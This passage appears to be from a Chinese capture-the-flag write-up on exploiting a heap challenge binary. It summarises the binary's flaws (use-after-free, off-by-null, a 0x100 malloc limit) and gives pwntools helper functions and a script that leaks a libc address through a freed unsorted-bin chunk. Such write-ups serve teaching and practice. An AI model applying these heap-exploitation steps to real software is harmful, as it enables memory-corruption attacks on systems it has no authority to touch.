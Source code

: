 清空的不是 free 掉的指针，清空的是堆块指针前面的堆块大小



而且还限制了 malloc 的最大 size 是 0x100（256）字节

![](/images/c425dbf2a0ac1cdc4b33a5b14a2d6886.png)



在 edit 的时候也用到了 strlen 来获取 chunk 内容的长度，所以没有办法通过把堆指针改成 hook 函数来修改 hook，因为 hook 被初始化为 0 了，可以编辑的长度为 0

![](/images/4910f969de8d9405d11238fc56ebe4e5.png)

#### 总结
1. 相当于每次操作都会 show 一遍所有的 chunk
2. 有 UAF
3. 有 off by null
4. edit 和 show 会被空字节截断（没法从 hook 下手）
5. 限制了 malloc 最大 0x100

先定义一些函数简化脚本：

```python
def add(size,content):
    link.recvuntil(b'(CMD)>>> ')
    link.sendline(b'A')
    link.recvuntil(b'(SIZE)>>> ')
    link.sendline(str(size))
    link.recvuntil(b'(CONTENT)>>> ')
    link.sendline(content)

def delete(index):
    link.recvuntil(b'(CMD)>>> ')
    link.sendline(b'D')
    link.recvuntil(b'(INDEX)>>> ')
    link.sendline(str(index))

def edit(index,content):
    link.recvuntil(b'(CMD)>>> ')
    link.sendline(b'E')
    link.recvuntil(b'(INDEX)>>> ')
    link.sendline(str(index))
    link.recvuntil(b'(CONTENT)>>> ')
    link.sendline(content)
    link.recvuntil(b'(Y/n)>>> ')
    link.sendline(b'y')
```

利用 UAF ，在 free 掉一个 unsortedchunk 之后泄露出了 libc 地址

```python
add(0x70,b'a'*0x70)
add(0x70,b'b'*0x70)
add(0x100,b'c'*0x100)
add(0x20,b'd'*0x20) #gap
delete(3)
addr=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(addr))
libc_base=addr-0x3c3b78
print('libc base='+hex(libc_base))
```

